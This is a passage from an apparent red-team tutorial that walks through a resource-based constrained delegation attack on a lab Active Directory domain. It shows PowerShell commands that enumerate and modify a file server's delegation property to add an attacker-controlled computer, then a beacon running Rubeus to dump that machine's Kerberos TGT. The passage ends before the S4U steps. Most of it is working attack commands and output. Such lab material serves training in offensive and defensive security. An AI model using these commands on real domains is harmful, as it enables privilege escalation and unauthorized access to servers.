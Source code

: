 ### The attack <a href="#el_1740158636587_1462" id="el_1740158636587_1462"></a>

```batch
PS C:\Users\Attacker> Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount -Server 10.10.120.1 -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount

Name        PrincipalsAllowedToDelegateToAccount
----        ------------------------------------
LON-DC-1    {}
LON-WS-1    {}
LON-FS-1    {CN=LON-WS-1,OU=Member Servers,DC=contoso,DC=com}
LON-WKSTN-1 {}
LON-WKSTN-2 {}
```

\
An AD property collection can only contain values of the same type.  Since _lon-fs-1_ already contains _lon-ws-1_, which is a computer account, we're not able to add a user account, such as _mssql\_svc_ to it.  Since we don't want to remove lon-ws-1 (although we could), this pretty much forces us to use a computer account.

To add a computer that we have SYSTEM on, such as _lon-wkstn-1_, we can do:

```batch
PS C:\Users\Attacker> $ws1 = Get-ADComputer -Identity 'lon-ws-1' -Server 10.10.120.1 -Credential $Cred
PS C:\Users\Attacker> $wkstn1 = Get-ADComputer -Identity 'lon-wkstn-1' -Server 10.10.120.1 -Credential $Cred
PS C:\Users\Attacker> Set-ADComputer -Identity 'lon-fs-1' -PrincipalsAllowedToDelegateToAccount $ws1,$wkstn1 -Server 10.10.120.1 -Credential $Cred
```

Now if we read the property back, we'll see our entry has been added (without overwriting the existing one).

```batch
PS C:\Users\Attacker> Get-ADComputer -Identity 'lon-fs-1' -Properties PrincipalsAllowedToDelegateToAccount -Server 10.10.120.1 -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount

Name     PrincipalsAllowedToDelegateToAccount
----     ------------------------------------
LON-FS-1 {CN=LON-WS-1,OU=Member Servers,DC=contoso,DC=com, CN=LON-WKSTN-1,OU=Workstations,DC=contoso,DC=com}
```

To gain access to _lon-fs-1_, we need to extract or request a TGT for the principal we just added, and then perform the S4U steps through Rubeus.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap

[*] Target service  : krbtgt
[*] Target LUID     : 0x3e7
[*] Current LUID    : 0x152a73

  UserName                 : LON-WKSTN-1$
  Domain                   : CONTOSO
  LogonId                  : 0x3e7
  UserSID                  : S-1-5-18
  AuthenticationPackage    : Negotiate
  LogonType                : 0
  LogonTime                : 21/02/2025 06:15:36
  LogonServer              : 
  LogonServerDNSDomain     : contoso.com
  UserPrincipalName        : LON-WKSTN-1$@contoso.com

```